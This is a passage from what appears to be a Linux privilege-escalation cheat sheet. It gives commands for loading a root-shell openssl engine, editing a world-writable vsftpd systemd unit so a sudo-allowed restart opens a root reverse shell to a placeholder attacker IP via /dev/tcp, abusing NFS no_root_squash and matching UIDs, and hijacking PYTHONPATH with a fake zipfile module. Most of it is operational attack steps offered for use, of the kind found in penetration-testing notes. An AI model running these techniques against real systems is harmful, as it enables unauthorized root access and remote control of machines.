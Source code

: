 ```
openssl req -engine ./rootshell.so
```

## Exploit Sudo program
```
(ALL:ALL) /usr/sbin/service vsftpd restart
check if the /etc/systemd/system/multi-user.target.wants/vsftpd.service file if it is world-writable
edit the file to spawn a reverse shell as root
        {
            [Unit]
            Description=vsftpd FTP server
            After=network.target
            [Service]
            Type=simple
            User=root
            ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
            [Install]
            WantedBy=multi-user.target
        }
run 'systemctl daemon-reload' before executing the altered script
then run 'sudo /usr/sbin/service vsftpd restart' with your listener on local machine on standby
```

## Exploit NO_ROOT_SQUASH on NFS
```
cat /etc/exports
> /home/james *(rw, fsid=0,sync,no_root_squash,insecure)
no_root_squash allows remote users to change any file on the shared file system
mount -t nfs ip: /tmp/mount
in the mounted directories, you can change or upload any programs you want that could result in privilege escalation
```

## Exploit NFS with user's UID & GID
```
cat /etc/exports
> /home/james *(rw,sync,root_squash)
add user on local machine with 3003 as the uid & gid
> useradd -u 3003 james
create a directory for mounting
mount the nfs files
> mount -t nfs 10.1.10.1:/home/james /mount
change james shell to /bin/bash
> usermod --shell /bin/bash james
change user to james and access the mount point
```

## PYTHONPATH hijacking
```
> (ALL) SETENV: /usr/bin/python3 /opt/backup.py
we can set an environment variable (SETENV) and /opt/backup.py imports a library called zipfile and create a python file named zipfile.py on local machine then sends it to the target machine
> class ZipFile:
    def close(*args):
        return

    def write(*args):
        return

    def __init__(self, *args):
        return
```
